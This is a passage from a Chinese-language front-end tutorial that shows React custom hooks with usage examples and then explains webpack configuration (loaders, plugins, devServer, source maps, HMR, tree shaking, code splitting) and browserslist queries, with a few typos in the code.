listener = () => null,
target = null,
options = null
) => {
const savedListener = useRef();
useEffect(() => {
savedListener.current = listener;
}, [listener]);
useEffect(() => {
if (!target?.addEventListener) return;
const eventListener = event => savedListener.current(event);
target.addEventListener(eventType, eventListener, options);
return () => {
target.removeEventListener(eventType, eventListener, options);
};
}, [eventType, target, options]);
};
export default useEventListener;
useEventListener 使用范例，这里实现了点击空白处关闭弹窗
import { useRef } from 'react';
import ReactDOM from 'react-dom';
import { useEventListener } from './hooks';
const Dialog = ({ show = false, onClose = () => null }) => {
const dialogRef = useRef();
// Event listener to close dialog on click outside element
useEventListener(
'mousedown',
event => {
if (event.defaultPrevented) {
return; // Do nothing if the event was already processed
}
if (dialogRef.current && !dialogRef.current.contains(event.target)) {
console.log('Click outside detected -> closing dialog...');
onClose();
}
},
window
);
return show
? ReactDOM.createPortal(
<div className="fixed inset-0 z-9999 flex items-center justify-center p-4 md:p-12 bg-blurred">
<div
className="relative bg-white rounded-md shadow-card max-h-full max-w-screen-sm w-full animate-zoom-in px-6 py-20"
ref={dialogRef}
>
<p className="text-center font-semibold text-4xl">
What's up{' '}
<span className="text-white bg-red-500 py-1 px-3 rounded-md mr-1">
YouTube
</span>
?
</p>
</div>
</div>,
document.body
)
: null;
};
export default Dialog;
useLocalStorage
import { useState } from 'react';
const useLocalStorage = (key = '', initialValue = '') => {
const [state, setState] = useState(() => {
try {
const item = window.localStorage.getItem(key);
return item ? JSON.parse(item) : initialValue;
} catch (error) {
return initialValue;
}
});
const setLocalStorageState = newState => {
try {
const newStateValue =
typeof newState === 'function' ? newState(state) : newState;
setState(newStateValue);
window.localStorage.setItem(key, JSON.stringify(newStateValue));
} catch (error) {
console.error(`Unable to store new value for ${key} in localStorage.`);
}
};
return [state, setLocalStorageState];
};
export default useLocalStorage;
useLocalStorage 使用范例
import { useLocalStorage } from './hooks';
const defaultSettings = {
notifications: 'weekly',
};
function App() {
const [appSettings, setAppSettings] = useLocalStorage(
'app-settings',
defaultSettings
);
return (
<div className="h-full w-full flex flex-col justify-center items-center">
<div className="flex items-center mb-8">
<p className="font-medium text-lg mr-4">Your application's settings:</p>
<select
value={appSettings.notifications}
onChange={e =>
setAppSettings(settings => ({
...settings,
notifications: e.target.value,
}))
}
className="border border-gray-900 rounded py-2 px-4 "
>
<option value="daily">daily</option>
<option value="weekly">weekly</option>
<option value="monthly">monthly</option>
</select>
</div>
<button
onClick={() => setAppSettings(defaultSettings)}
className="rounded-md shadow-md py-2 px-6 bg-red-500 text-white uppercase font-medium tracking-wide text-sm leading-8"
>
Reset settings
</button>
</div>
);
}
export default App;
useMediaQuery
每当页面的媒体查询改变时候，找到匹配的值然后返回。queries 对应媒体查询的字符串数组，values 以与前一个数组相同的顺序匹配这些媒体查询的值数组，defaultValue 如果没有匹配的媒体查询，则使用默认值
mport { useState, useCallback, useEffect } from 'react';
const useMediaQuery = (queries = [], values = [], defaultValue) => {
const mediaQueryList = queries.map(q => window.matchMedia(q));
const getValue = useCallback(() => {
const index = mediaQueryList.findIndex(mql => mql.matches);
return typeof values[index] !== 'undefined' ? values[index] : defaultValue;
}, [mediaQueryList, values, defaultValue]);
const [value, setValue] = useState(getValue);
useEffect(() => {
const handler = () => setValue(getValue);
mediaQueryList.forEach(mql => mql.addEventListener('change', handler));
return () =>
mediaQueryList.forEach(mql => mql.removeEventListener('change', handler));
}, [getValue, mediaQueryList]);
return value;
};
export default useMediaQuery;
使用例子
import { useMediaQuery } from './hooks';
function App() {
const canHover = useMediaQuery(
// Media queries
['(hover: hover)'],
// Values corresponding to the above media queries by array index
[true],
// Default value
false
);
const canHoverClass = 'opacity-0 hover:opacity-100 transition-opacity';
const defaultClass = 'opacity-100';
return (
<div className={canHover ? canHoverClass : defaultClass}>Hover me!</div>
);
}
export default App;
useDarkMode
import { useEffect } from 'react';
import useMediaQuery from './useMediaQuery';
import useLocalStorage from './useLocalStorage';
const useDarkMode = () => {
const preferDarkMode = useMediaQuery(
['(prefers-color-scheme: dark)'],
[true],
false
);
const [enabled, setEnabled] = useLocalStorage('dark-mode', preferDarkMode);
useEffect(() => {
if (enabled) {
document.body.classList.add('dark');
} else {
document.body.classList.remove('dark');
}
}, [enabled]);
return [enabled, setEnabled];
};
export default useDarkMode;
webpack基础
什么是 webpack？
webpack 是一个用于现代 JavaScript 应用程序的 静态模块打包工具。当 webpack 处理应用程序时，它会在内部构建一个 依赖图(dependency graph)，此依赖图对应映射到项目所需的每个模块，并生成一个或多个 bundle。
它可以把浏览器不认识的 web 资源， 比如 sass、less、ts，经过编译后能够在浏览器中正常工作。
module chunk bundle
这三个术语在 webpack 文档里经常见到，它们的含义：
- module：就是源代码中的模块，一个文件就是一个模块，例如 commonjs 的模块，es6 module 的模块
- chunk：webpack 在执行过程中根据源代码的 module 的引用关系形成的文件就是 chunk
- bundle：最终输出的文件，能够直接在浏览器里运行
entry
entry 指示 webpack 应该使用哪个模块，来作为构建其内部依赖图的开始。
{
// string方式： 单入口，打包形成一个 trunk，输出一个 buldle 文件。trunk 的名称默认是 main.js
entry: "./src/index.js",
// array方式：多入口，所有入口文件最终只会形成一个 trunk，输出出去只有一个 bundle 文件
entry: ["./src/index.js", "./src/test.js"],
// object：多入口，有几个入口文件就形成几个 trunk，输出几个 bundle 文件。此时 trunk 的名称就是对象 key 值
entry: {
index:"./src/index.js",
test:"./src/test.js",
}
}
output
output 指示 webpack 打包后的资源输出到哪里，以及如何命名。
{
output: {
// 输出文件目录（将来所有资源输出的公共目录，包括 css 和静态文件等等）
path: path.resolve(__dirname, "dist"), //默认
// 文件名称
filename: "[name].js", // 默认
// 所有资源引入公共路径前缀，一般用于生产环境，小心使用
publicPath: "",
/*
非入口文件 chunk 的名称。所谓非入口即 import 动态导入形成的 trunk 或者 optimization 中的 splitChunks 提取的公共 trunk
它支持和 filename 一致的内置变量
*/
chunkFilename: "[contenthash:10].chunk.js",
/* 当用 Webpack 去构建一个可以被其他模块导入使用的库时需要用到 library */
library: {
name: "[name]", // 整个库向外暴露的变量名
type: "window" // 库暴露的方式
}
}
}
loader
loader 用来处理不同的文件。webpack 自身只能理解 js 和 json 文件，loader 让 webpack 能够处理其他文件。它会将其他类型的文件变成 js 模块。
rules: [
{
// 匹配哪些文件
test: /\.css$/,
// 使用哪些 loader 进行处理。执行顺序，从右至左，从下至上
use: [
// 创建 style 标签，将 js中的样式资源（就是 css-loader 转化成的字符串）拿过来，添加到页面 head 标签生效
"style-loader",
// 将 css 文件变成 commonjs 一个模块加载到 js 中，里面的内容是样式字符串
"css-loader",
"sass-loader",
{
// css 兼容处理 postcss，注意需要在 package.json 配置 browserslist
loader: "postcss-loader",
options: {
postcssOptions: {
ident: "postcss",
// postcss-preset-env插件：帮 postcss 找到 package.json 中的 browserslist 配置，根据配置加载指定的兼容性样式
plugins: [require("postcss-preset-env")()],
},
},
},
],
},
{
test: /\.js$/,
// 注意需要在 package.json 配置 browserslist，否则 babel-loader 不生效
// js 兼容处理 babel
loader: "babel-loader", // 规则只使用一个 loader 时推荐写法
options: {
presets: [
[
"@babel/preset-env",// 预设：指示 babel 做怎么样的兼容处理
{
useBuiltIns: "usage", //按需加载
corejs: {
version: "3",
},
targets: "defaults",
}
]
]
}
},
/*
Webpack5.0 新增资源模块(asset module)，它是一种模块类型，允许使用资源文件（字体，图标等）而无需配置额外 loader。支持以下四个配置
asset/resource 发送一个单独的文件并导出 URL。之前通过使用 file-loader 实现。
asset/inline 导出一个资源的 data URI。之前通过使用 url-loader 实现。
asset/source 导出资源的源代码。之前通过使用 raw-loader 实现。
asset 在导出一个 data URI 和发送一个单独的文件之间自动选择。之前通过使用 url-loader，并且配置资源体积限制实现。
*/
// Webpack4 使用 file-loader 实现
{
test: /\.(eot|svg|ttf|woff|)$/,
type: "asset/resource",
generator: {
// 输出文件位置以及文件名
filename: "fonts/[name][ext]"
},
},
// Webpack4 使用 url-loader 实现
{
//处理图片资源
test: /\.(jpg|png|gif|)$/,
type: "asset",
generator: {
// 输出文件位置以及文件名
filename: "images/[name][ext]"
},
parser: {
dataUrlCondition: {
maxSize: 10 * 1024 //超过 10kb 不转 base64
}
}
},
],
plugins
插件用于执行 loader 之外的其他功能。例如 打包优化和压缩，定义环境变量等。
// CleanWebpackPlugin 帮助你在打包时自动清除 dist 文件，学习时使用比较方便
const { CleanWebpackPlugin } = require("clean-webpack-plugin");
// HtmlWebpackPlugin 帮助你创建 html 文件，并自动引入打包输出的 bundles 文件。支持 html 压缩。
const HtmlWebpackPlugin = require("html-webpack-plugin");
// 该插件将 CSS 提取到单独的文件中。它会为每个 trunk 创造一个 css 文件。需配合 loader 一起使用
const MiniCssExtractPlugin = require("mini-css-extract-plugin");
// 该插件将在 webpack 构建过程中搜索 CSS 资源，并优化\最小化 CSS
const OptimizeCssAssetsWebpackPlugin = require("optimize-css-assets-webpack-plugin");
// vue-loader V15 版本以上，需要引入 VueLoaderPlugin 插件，它的作用是将你定义过的 js、css 等规则应用到 vue 文件中去。
const { VueLoaderPlugin } = require('vue-loader')
module.exports = {
module: {
rules: [
{
test: /\.vue$/,
loader: "vue-loader"
},
{
test: /\.css$/,
use: [
// MiniCssExtractPlugin.loader的 作用就是把 css-loader 处理好的样式资源（js文件内），单独提取出来成为 css 样式文件
MiniCssExtractPlugin.loader, //生产环境下使用，开发环境还是推荐使用 style-loader
"css-loader",
],
},
],
},
plugins: [
new CleanWebpackPlugin(),
new HtmlWebpackPlugin({
template:"index.html"
}),
new MiniCssExtractPlugin({
filename: "css/built.css",
}),
new OptimizeCssAssetsWebpackPlugin(),
new VueLoaderPlugin(),
]
}
mode
指示 webpack 使用相应模式的配置。默认为 production。
| 选项 | 描述 |
|---|---|
| development | 会将 DefinePlugin 中 process.env.NODE_ENV 的值设置为 development。为模块和 chunk 启用有效的名。 |
| production | 会将 DefinePlugin 中 process.env.NODE_ENV 的值设置为 production。为模块和 chunk 启用确定性的混淆名称，FlagDependencyUsagePlugin，FlagIncludedChunksPlugin，ModuleConcatenationPlugin，NoEmitOnErrorsPlugin 和 TerserPlugin 。 |
| none | 不使用任何默认优化选项 |
- DefinePlugin：用于定义全局变量 process.env.NODE_ENV，区分程序运行状态。
- FlagDependencyUsagePlugin：标记没有用到的依赖。
- FlagIncludedChunksPlugin：标记 chunks，防止 chunks 多次加载。
- ModuleConcatenationPlugin：作用域提升(scope hosting)，预编译功能，提升或者预编译所有模块到一个闭包中，提升代码在浏览器中的执行速度。
- NoEmitOnErrorsPlugin：防止程序报错，就算有错误也继续编译。
- TerserPlugin：压缩 js 代码。
resolve
配置模块如何被解析。
// 解析模块的规则：
resolve: {
// 配置 解析模块路径别名：可简写路径。
alias: {
"@": path.resolve(__dirname, "src")
},
// 配置省略文件路径的后缀名。默认省略 js 和 json。也是 webpack 默认认识的两种文件类型
extensions: [".js", ".json", ".css"], // 新加 css 文件
// 告诉 webpack 解析模块是去找哪个目录
// 该配置明确告诉 webpack，直接去上一层找 node_modules。
modules: [path.resolve(__dirname, "../node_modules")],
},
devServer
配置 webpack-dev-server，在开发环境下启动一个服务提供实时加载改动后的页面，也可以设置代理，将所有请求都转发到另外一个服务，解决开发中跨域问题
devServer: {
// 运行代码的目录
contentBase: path.resolve(__dirname, "build"),
// 为每个静态文件开启 gzip 压缩
compress: true,
host: "localhost",
port: 5000,
open: true, // 自动打开浏览器
hot: true, //开启HMR功能
// 设置代理
proxy: {
// 一旦 devServer (5000端口)接收到 /api/xxx 的请求，就会用 devServer 起的服务把请求转发到另外一个服务器（3000）
// 以此来解决开发中的跨域问题
api: {
target: "htttp://localhost:3000",
// 发送请求时，请求路径重写：将/api/xxx --> /xxx （去掉/api）
pathRewrite: {
"^api": "",
},
},
},
},
optimization
webpack 会根据不同 mode 执行不同的优化，这些预设的优化可以通过 optimization 选项来手动配置和重写。
// optimization（生产环境下配置）
optimization: {
// 提取公共代码
splitChunks: {
chunks: "all",
},
minimizer: [
// 配置生产环境的压缩方案：js 和 css
new TerserWebpackPlugin({
// 多进程打包
parallel: true,
terserOptions: {
// 启动 source-map
sourceMap: true,
},
}),
],
}
devtool
配置如何生成 source map。source-map 是一种提供源代码到构建后代码映射的技术，如果构建后代码出错了，通过映射可以追踪源代码错误，优化代码调试。
-
下面几个值不会生成 source-map
- false：不使用 source-map，也就是没有任何和 source-map 相关的内容。
- none：production 模式下的默认值，不生成 source-map。
- eval：development 模式下的默认值，不生成单独的 source-map 文件，但是它会在eval执行的代码中，添加 //# sourceURL=；它会被浏览器在执行时解析，并且在调试面板中生成对应的一些文件目录，方便我们调试代码；
-
source-map：生成一个独立的 source-map 文件，并且在 bundle 文件中有一个注释，指向 source-map 文件；bundle 文件中有如下的注释：开发工具会根据这个注释找到 source-map 文件，并且解析；
//# sourceMappingURL=bundle.js.map
-
eval-source-map：会生成 sourcemap，但是 source-map 是以 DataUrl 添加到 eval 函数的后面
-
inline-source-map：会生成 sourcemap，但是 source-map 是以 DataUrl 添加到 bundle 文件的后面
-
cheap-source-map：会生成 sourcemap，但是会更加高效一些（cheap低开销），因为它没有生成列映射（Column Mapping）因为在开发中，我们只需要行信息通常就可以定位到错误了。
-
hidden-source-map：会生成 sourcemap，但是不会对 source-map 文件进行引用；相当于删除了打包文件中对 sourcemap 的引用注释；如果我们手动添加进来，那么 sourcemap 就会生效了
-
nosources-source-map：会生成 sourcemap，但是生成的 sourcemap 只有错误信息的提示，不会生成源代码文件；
-
cheap-module-source-map：会生成 sourcemap，类似于 cheap-source-map，但是对源自 loader 的 sourcemap 处理会更好。这里有一个很模糊的概念：对源自 loader 的 sourcemap 处理会更好，官方也没有给出很好的解释。其实是如果 loader 对我们的源码进行了特殊的处理，比如 babel；
-
事实上，webpack 提供给我们的 26 个值，是可以进行多组合的。
- inline-|hidden-|eval：三个值时三选一；
- nosources：可选值；
- cheap 可选值，并且可以跟随 module 的值；
[inline-|hidden-|eval-][nosources-][cheap-[module-]]source-map
- 那么在开发中，最佳的实践是什么呢？
- 开发阶段：推荐使用 source-map 或者 cheap-module-source-map 这分别是 vue 和 react 使用的值，可以获取调试信息，方便快速开发；
- 测试阶段：推荐使用 source-map 或者 cheap-module-source-map 测试阶段我们也希望在浏览器下看到正确的错误提示；
- 发布阶段：false、缺省值（不写）
webpack 优化
利用 webpack 进行优化分为两个部分，开发环境下的优化和生产环境的优化。
开发环境
source-map
source-map 是生成的一个对象，这个对象是源代码和编译后代码的映射关系，浏览器可以通过 source-map 找到编译后代码的报错信息具体在源代码的哪个地方。
通过 devtool 选项设置。webpack 提供了二十多个值，其实是几个关键字互相组合的结果。
最普通的配置是 devtool: 'source-map'。这个的意思是 source-map 生成为独立的文件，然后在 bundle 中最后面加一个注释，浏览器会根据这个注释找到对应的 source-map 文件然后解析并生效。
//# sourceMappingURL=bundle.js.map
当 devtool 的值是 false 和 none 时，不生成 source-map。
下面是关键字组合的语法：
[inline-|hidden-|eval-][nosources-][cheap-[module-]]source-map
- inline hidden eval 这三者选其一。
- inline：source-map 的内容以 dataUrl 的形式放在最终的 bundle 中
- hidden：会生成 source-map 为单独文件，但是 bundle 中没有那句注释，所以浏览器找不到对应的 source-map 文件
- eval：source-map 的内容和 bundle 代码混在一起，然后作为参数被 eval() 执行
- nosources：使用这个关键字的 source-map 不包含 sourcesContent，因此只能看到文件信息和代码行数，看不到源代码
- cheap：只包含行信息，不包含列信息，源码是 loader 处理后的。也就是说只能定位到源码的哪一行，而不知道具体是第几列
- cheap-module：和 cheap 类似，只是源码是真正的源码，不是 loader 处理后的。
那么在开发中，最佳的实践是什么呢？
- 开发阶段：推荐使用 source-map 或者 cheap-module-source-map 这分别是 vue 和 react 使用的值，可以获取调试信息，方便快速开发；
- 测试阶段：推荐使用 source-map 或者 cheap-module-source-map 测试阶段我们也希望在浏览器下看到正确的错误提示；
- 发布阶段：false、缺省值（不写）。如果想在生产环境看到报错的具体源码位置，可以使用 nosources-source-map
webpack 官网都建议加上 eval 关键字，因为加上后模块构建速度会加快。
HMR（hot module replacement 模块热替换）
devServer 启动一个代理服务器。启动过后修改代码就会自动刷新浏览器了，但这个并不是 HMR。HMR 是指替换、添加或删除模块，而无需重新加载整个页面。
当我们对代码修改并保存后，Webpack 将会对代码进行重新打包，并将新的模块发送到浏览器端，浏览器用新的模块替换掉旧的模块，以实现在不刷新浏览器的前提下更新页面。最明显的优势就是相对于刷新整个页面而言，HMR 并不会丢失应用的状态，提高开发效率。
{
// 注意：Webpack 升级到 5.0后，target 默认值值会根据 package.json 中的 browserslist 改变，导致 devServer 的自动更新失效。所以development 环境下直接配置成 web。
target: "web",
devServer: {
contentBase: path.resolve(__dirname, "dist"),
hot: true,//开启 HMR 功能
},
plugins: {
HotModuleReplacementPlugin: new webpack.HotModuleReplacementPlugin()
}
}
开启 HMR 后，还需要进行一些配置才能生效。
- 样式文件：style-loader 内部实现，所以只要 loader 中配置了 style-loade 就可直接使用 HMR 功能
- vue 文件：vue-loader 内部实现，同理配置 vue-loader 直接使用 HMR。
- js 文件：需要修改源代码，接收更新通知，代码如下
import test from "./test.js"
if (module.hot) {
module.hot.accept("./test.js",() => {
console.log('Accepting the updated test module!');
})
}
当 test 文件被改动时，更新事件会一层层往上传递，直到传递到入口文件中。而在传递的过程中，任何地方接收了这个更新事件，即上面的 module.hot.accept 方法，就会停止传递，执行回调。如果一直未接收，最后就会通知 Webpack 刷新整个页面。
生产环境
oneOf
webpack 原本的是将每个文件都过一遍所有的 rules，比如 rules 中有 10 个 loader，第一个是处理 js 文件的 loader，当第一个 loader 处理完成后 webpack 不会自动跳出，而是会继续拿着这个 js 文件去尝试匹配剩下的 9 个 loader，相当于没有 break。而 oneOf 就相当于这个 break。
rules:[
{
test: /\.js$/,
exclude: /node_modules/,
loader: "eslint-loader",
},
{
// 以下 loader 一种文件只会匹配一个
oneOf: [
// 不能有两个配置处理同一种类型文件，如果有，另外一个规则要放到外面。
{
test: /\.js$/,
exclude: /node_modules/,
use: [
{
loader: "babel-loader",
},
],
},
{
test: /\.css$/,
use: [
"style-loader",
"css-loader",
],
},
],
},
]
cache-loader 缓存
在编译打包时可对文件做缓存，有两种方式，一种是解析文件的 loader 自身带有缓存功能（如 babel-loader, vue-loader），第二种就是使用专门的 loader（cache-loader）。 开启缓存后，对于未改动的文件，webpack 直接从缓存中读取而不用再次编译，大大加快构建速度。
{
test: /\.js$/,
use: [ // 使用 cache-loader，放在 babel-loader 前可对 babel 编译后的 js 文件做缓存。
"cache-loader",
{
loader: "babel-loader",
options: {
presets: [
[
"@babel/preset-env",// 预设：指示babel做怎么样的兼容处理
]
],
// 开启 babel 缓存，第二次构建时，会读取之前的缓存。
cacheDirectory: true,
}
}
]
}
@vue/cli-service 也依赖了 cache-loader
多进程打包 thread-loader
// thread-loader 放在 babel-loader 前，就会在 babel-loader 工作时进行多进程工作。
{
loader: "thread-loader",
options: {
workers: 2, // 启动进程个数，默认是电脑 cpu 核数 -1
},
},
{
loader: "babel-loader",
options: {
presets: [
[
"@babel/preset-env",
],
],
},
},
externals
externals 用来告诉 Webpack 要构建的代码中使用了哪些不用被打包的模块，这些模块可能是通过外部环境（如 CDN）引入的。
module.export = {
externals: {
// 把导入语句里的 jquery 替换成运行环境里的全局变量 jQuery
jquery: 'jQuery'
}
}
// 源代码
import $ from "jquery"
配置了 externals 后，即使你代码中引入了这个库，Webpack 也不会将库打包进 bundle，而是直接使用全局变量。
dll
dll（动态链接库）：使用dll技术对公共库进行提前打包，可大大提升构建速度。公共库一般情况下是不会有改动的，所以这些模块只需要编译一次就可以了，并且可以提前打包好。在主程序后续构建时如果检测到该公共库已经通过 dll 打包了，就不再对其编译而是直接从动态链接库中获取。
实现 dll 打包需要以下三步：
- 抽取公共库，打包到一个或多个动态链接库中。
- 将打包好的动态链接库在页面中引入。
- 主程序使用了动态链接库中的公共库时，不能被打包入 bundle，应该直接去动态链接库中获取。
针对这个步骤的代码
- 新建一个 webpack.dll.js 用来提前打包动态链接库
// webpack.dll.js
module.exports = {
// JS 执行入口文件
entry: {
// 把 vue 相关模块的放到一个单独的动态链接库
vendor: ['vue', 'axios'],
// 其他模块放到另一个动态链接库
other: ['jquery', 'lodash'],
},
output: {
// 输出的动态链接库的文件名称，[name] 代表当前动态链接库的名称（"vendor" 和 "other"）
filename: '[name].dll.js',
// 输出的文件都放到 dist 目录下的 dll文件夹中
path: path.resolve(__dirname, 'dist', "dll"),
// 存放动态链接库的向外暴露的变量名，例如对应 vendor 来说就是 _dll_vendor
library: '_dll_[name]',
},
plugins: [
// 打包生成一个 mainfest.json 文件。告诉 webpack 哪些库不参与后续的打包，已经通过 dll 事先打包好了。
new webpack.DllPlugin({
// 动态链接库的库名，需要和 output.library 中保持一致
// 该字段的值也就是输出的 manifest.json 文件 中 name 字段的值
// 例如 vendor.manifest.json 中就有 "name": "_dll_vendor"
name: '_dll_[name]',
// 描述动态链接库的 manifest.json 文件输出时的文件名称
path: path.join(__dirname, 'dist', "dll", '[name].manifest.json'),
}),
],
};
- 在模板页 index.html 中引入打包好的动态链接库
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta http-equiv="X-UA-Compatible" content="IE=edge">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Webpack</title>
<script src="./dll/vendor.dll.js"></script>
<script src="./dll/other.dll.js"></script>
</head>
<body>
<div id="app"></div>
</body>
</html>
- 在主程序的 Webpack 配置中使用 webpack.DllReferencePlugin 插件，读取 webpack.DllPlugin 生成的manifest.json 文件，从中获取依赖关系。
// webpack.config.js
module.exports = {
mode: "production",
plugins: [
new HtmlWebpackPlugin({
template: "./index.html"
}),
// 告诉 Webpack 使用了哪些动态链接库
new webpack.DllReferencePlugin({
// manifest 文件告诉 webpack 哪些库已经通过 dll 事先打包好了，后续构建直接去动态链接库里获取。
manifest: path.resolve(__dirname, "dist", "./dll/vendor.manifest.json"),
}),
new webpack.DllReferencePlugin({
manifest: path.resolve(__dirname, "dist", "./dll/other.manifest.json"),
}),
],
}
Tree Shaking
移除 JavaScript 上下文中的未引用代码。将整个应用程序想象成一棵树，绿色的树叶表示实际用到的，灰色的树叶则表示未被使用的代码，是枯萎的树叶。为了除去这些死去的无用的树叶，你需要摇动这棵树使其落下。这就是 Tree Shaking的名称由来。
// 入口文件 index.js
import test from "./test.js"
console.log(test.add(2, 3));
// 测试文件 test.js
const add = (x, y) => x + y
const print = (msg) => {
console.log(msg);
}
export default { add, print }
// 最终打包输出的 bundle：main.js 文件
!function(){"use strict";console.log(2+3)}();
从上面示例可以看出，index.js 中虽然引入了 test 文件，但是因为 test 文件暴露的 print 方法没有被使用，所以在最终打包中被去除。 这一点在 Webpack4 中还做不到，Webpack4 中只会去除从未被使用的模块。带入上面的例子，如果 test 在 index.js文件中没有被用到，才会被 Tree Shaking。之所以这样，是因为 Webpack4 默认认为所有文件的代码都是有副作用的。如何告知 Webpack 你的代码是否有副作用，可通过 package.json 中的 sideEffects 字段。
// 所有文件都有副作用
{
"sideEffects": true
}
// 所有文件都没有副作用
{
"sideEffects": false
}
// 只有这些文件有副作用，所有其他文件都可以 Tree Shaking，但会保留这些文件
{
"sideEffects": [
"./src/file1.js",
"./src/file2.js"
]
}
Webpack5 默认设置中认为样式文件是有副作用的，所以引入样式文件虽然没有被使用（样式文件肯定是不使用的）也不会被去除，但是如果设置了 sideEffects：false，就会进行 Tree Shaking 将代码去除。
其实不用特别配置，只要将 mode 设置为 "production"，Webpack 就自动启用 Tree Shaking 了。有两点说明下：
- 源代码必须使用 静态的 ES6 模块化语法。原因是 Webpack 在构建时通过静态分析，分析出代码之间的依赖关系。而动态导入如 require 语法只有在执行时才知道导入了哪个模块，所以无法做 Tree Shaking。
- 三方库无法做 Tree Shaking。原因猜测是 Webpack 无法保证三方库导入是否会直接对程序产生影响。
Code Split 代码分割
Webpack 默认会将所有依赖的文件打包输出到一个 bundle.js 中（单入口时），当应用程序逐渐复杂，这个 bundle.js 文件也会越来越大，浏览器加载的速度也会越来越慢，所以就需要使用代码分割来将不同代码单独打包成不同 trunk 输出。主要有两种方法：
- 通过 optimization 将公共代码单独打包成 trunk
optimization: {
splitChunks: {
// 选择哪些 chunk 进行优化，默认async，即只对动态导入形成的trunk进行优化。
chunks: 'all',
// 提取chunk最小体积
minSize: 20000,
// 要提取的chunk最少被引用次数
minChunks: 1,
// 对要提取的trunk进行分组
cacheGroups: {
// 匹配node_modules中的三方库，将其打包成一个trunk
defaultVendors: {
test: /[\\/]node_modules[\\/]/,
// trunk名称
name: 'vendors',
priority: -10,
},
default: {
// 将至少被两个 trunk引 入的模块提取出来打包成单独trunk
minChunks: 2,
name: 'default',
priority: -20,
},
},
},
},
- import 动态导入
当想要根据业务拆分 bundle 时推荐用这种方式。import 动态导入的模块 Webpack 会将其作为单独的 trunk 打包。
import( /* webpackChunkName: 'test' */ './test.js').then((result) => {
console.log(result);
}).catch(() => {
console.log('加载失败！');
});
browserslist
browserslist 是一个配置文件，用于在不同的前端工具直接共享指定目标浏览器或 nodejs 版本的设置。
browserslist 可以放在 package.json 中，或者项目根目录下的 .browserslistrc 文件中。
// package.json
"browserslist": [
"defaults",
"not IE 11",
"maintained node versions"
]
// .browserslistrc
defaults
not IE 11
maintained node versions
最佳实践
可以设置 browserslist 设置为默认值，适合大多数用户。
"browserslist": [
"defaults"
]
但是更建议用如下设置：
last 2 versions
not dead
> 0.2%
浏览器数据更新
-
使用 npx browserslist@latest --update-db 命令更新 caniuse-lite 版本。原因是因为如果一直不更新 browserslist 依赖的 caniuse-lite ，假如两年没有更新，那么 last 2 versions 就意味着两年前的浏览器版本。
-
为不同的工具同步 caniuse-lite 的版本。因为有可能 autoprefixer 和 babel 在安装的时候使用的 caniuse-lite 版本不同
browserslist 设置的几种形式
- package.json 中 browserslist 字段
- .browserslistrc 文件
- browserslist 配置文件
- BROWSERSLIST 环境变量
- 如果上面几种形式都不存在，则使用默认设置：> 0.5%, last 2 versions, Firefox ESR, not dead
查询（query）
query 的组合，可以使用 or 或者 ,（逗号）。例如： last 1 version or > 1% 和 last 1 version, > 1% 是同一个意思。还可以使用 and。例如：last 1 version or chrome > 75 and > 1%。
| 关键字 | 图例 | 例子 |
|---|---|---|
| or 或 , 并集 |  | > .5% or last 2 versions > .5%, last 2 versions |
| and 交集 |  | > .5% and last 2 versions |
| not 相对补集 |  | > .5% and not last 2 versions > .5% or not last 2 versions > .5%, not last 2 versions |
常用 query 写法
defaults默认值，等价于> 0.5%, last 2 versions, Firefox ESR, not dead- 使用统计数据
> 5%全球使用情况统计选择的浏览器版本。同样可以使用 >=，<，<=> 5% in US美国使用情况统计的浏览器版本。接受两个字母的国家/地区代码> 5% in alt-AS使用亚洲地区使用情况统计。可在以下位置找到所有地区代码的列表> 5% in my stats使用自定义数据> 5% in browserslist-config-mycompany stats使用来自于 browserslist-config-mycompany/browserslist-stats.json 的自定义数据cover 99.5%提供覆盖的最流行的浏览器cover 99.5% in US和上面的相同，两个字母代表国家/地区cover 99.5% in my stats和上面相同，使用自定义数据
- 最后的版本
last 2 versions每种浏览器的最后两个版本last 2 Chrome versionschrome 浏览器的最后两个版本last 2 major versionslast 2 iOS major versions最后两个主要版本
dead官方不再提供更新支持超过 24 个月- nodejs 版本
node 10node 10.4Node.js 10.x.x 或者 10.4.x 的最后一个发布版本current node当前 browserslist 使用的 nodejs 版本maintained node versions所有 nodejs 版本，官方还依然维护的版本
- 浏览器版本
iOS 7iOS 浏览器版本 7Firefox > 20版本号大于 20 的火狐浏览器ie 6-8选择浏览器版本号的一个范围Firefox ESR火狐浏览器 ESR 版本 Firefox Extended Support ReleasePhantomJS 2.1选择 Safari 版本和 PhantomJS 类似
extends browserslist-config-mycompany使用 browserslist-config-mycompany 包中的 querysupports es6-module支持特定功能的浏览器，特定功能的列表看这里browserslist configbrowserslist 配置文件since 2015last 2 years根据时间判断的所有版本unreleased versionsunreleased Chrome versionsalpha 和 beta 版本not ie <= 8除了某种条件之外的版本
浏览器名称
Androidfor Android WebView.Baidufor Baidu Browser.BlackBerryorbbfor Blackberry browser.Chromefor Google Chrome.ChromeAndroidorand_chrfor Chrome for AndroidEdgefor Microsoft Edge.Electronfor Electron framework. It will be converted to Chrome version.Exploreroriefor Internet Explorer.ExplorerMobileorie_mobfor Internet Explorer Mobile.Firefoxorfffor Mozilla Firefox.FirefoxAndroidorand_fffor Firefox for Android.iOSorios_saffor iOS Safari.Nodefor Node.js.Operafor Opera.OperaMiniorop_minifor Opera Mini.OperaMobileorop_mobfor Opera Mobile.QQAndroidorand_qqfor QQ Browser for Android.Safarifor desktop Safari.Samsungfor Samsung Internet.UCAndroidorand_ucfor UC Browser for Android.kaiosfor KaiOS Browser.
会使用 browserslist 的插件
autoprefixerpostcss 的一个插件，用于给 css 添加浏览器引擎前缀Babeljs 编译器postcss-preset-env类似 babel，将 css 编译成兼容的形式postcss-normalize浏览器都有默认样式。这个插件用于将不同浏览器的默认样式标准化eslintjs 代码错误风格检查stylelintcss 代码错误风格检查
source-map 原理
source-map 结构
现在 source-map 规范使用的版本是 v3 版本，格式如下：
{
"version" : 3, // 规范版本号
"file": "out.js", // 对应的 bundle 文件
"sourceRoot": "", // 源文件根目录，这个值会加在每个源文件之前
"sources": ["foo.js", "bar.js"], // 源文件的文件名组成的数组，bundle 文件是从哪些源文件转换而来的
"sourcesContent": [null, null], // 与 sources 对应，源文件的源代码字符串
"names": ["src", "maps", "are", "fun"], // 源文件的变量名和属性名
"mappings": "A,AAAB;;ABCDE;" // 源文件和 bundle 文件的映射关系
}
| 属性 | 含义 |
|---|---|
| version | source-map 使用的规范的版本号 |
| file | source-map 对应的 bundle 文件 |
